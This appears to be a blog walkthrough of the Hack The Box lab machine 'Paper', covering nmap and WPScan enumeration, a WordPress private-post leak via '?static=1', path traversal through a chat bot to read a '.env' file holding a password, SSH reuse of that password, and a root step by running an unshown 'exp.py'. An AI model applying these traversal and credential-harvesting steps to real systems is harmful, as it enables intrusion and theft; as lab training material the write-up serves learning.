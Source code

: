 ```yaml
---
title: '[HTB] Paper' 
date: 2022-05-15 2:24 AM
categories: [Machines, HTB]
tags: [easy, wpscan, wordpress, linux, machines]
permalink: /:categories/:title
img_path: /assets/img/machines/htb/paper
---
```


![banner](banner.png) 

## Enumeration

### NMAP

```console
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.10.11.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-14 05:07 EDT
Nmap scan report for 10.10.11.143
Host is up (0.045s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.24 seconds
```
> We see port 80 open, so then we have to go to the website and see that it is a default Apache in CentOS. 

### Domain

After doing some research I found a header a little suspicious on the Network Monitor. 

![header](header.png)
_Suspicious X-Backend-Server header_

That is a domain for sure, but when we navigate, we have a 404 error... I figured out that the only thing to do is add the domain to **/etc/hosts** and see what happens.

![wappalyzer](wappalyzer.png) 
_Wappalyzer extension_

> When we enter into the website, Wappalyzer told us it is a WordPress page. So let's take a look with WPScan.

### WPScan

```console
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://office.paper
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22

       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://office.paper/ [10.10.11.143]
[+] Started: Sun May 15 05:24:33 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
 |  - X-Powered-By: PHP/7.2.24
 |  - X-Backend-Server: office.paper
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://office.paper/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
```

> Version 5.2.3 is vulnerable!

### Vulnerability

Searching for vulnerabilities of the WordPress version I found one which shows hidden posts.

```console
┌──(kali㉿kali)-[~]
└─$ searchsploit WordPress 5.2.3                               
-------------------------------------------------------------------------------------------------------
 Exploit Title                                                           |  Path
-------------------------------------------------------------------------------------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification                      | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts  | multiple/webapps/47690.md
```

If we take a look into the second vulnerability...

```
So far we know that adding `?static=1` to a wordpress URL should leak its secret content

Here are a few ways to manipulate the returned entries:

- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format


In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
```

## Foothold

On `http://office.paper/?static=1` an article named `test` appears.  There is one text that stands out:

```
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY
```

So now, we add the domain to **/etc/hosts** and navigate into the website, register and login.

```
Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files: eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List: You can ask me to list the files
5. Time: You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```

> We see a bot inside the general chat after login. The general chat is read-only so let's talk to the bot privately.

Then we use `file` and `list` command in the bot chat to access to the system. There is a user.txt but we don't have access to it.  We need another method to enter the system...

```
 file ../user.txt 

 Access denied.
```

After looking for something I finally found something interesting:

```
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

> I tried to login with this credentials into ssh but it is incorrect. Let's see the users on **/etc/passwd**. This 2 users have /bin/bash as shell...

```bash
rocketchat:1001:1001::/home/rocketchat:/bin/bash
dwight:1004:1004::/home/dwight:/bin/bash
```
{: file="/etc/passwd"}

> With the second user we have login into the system via SSH! 

Let's see the `user.txt` file! And here is the FLAG.

### System own

To get root permissions we only need to execute the file on home named `exp.py`.

```console
[root@paper ~]# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

> Now we got **ROOT**! 

For the **root FLAG** we go to personal directory of root and see `root.txt`.

## Conclusion

It is a machine that, for people who are starting out, is very good. The use of the bot to get the credentials was interesting. This is the first of many!
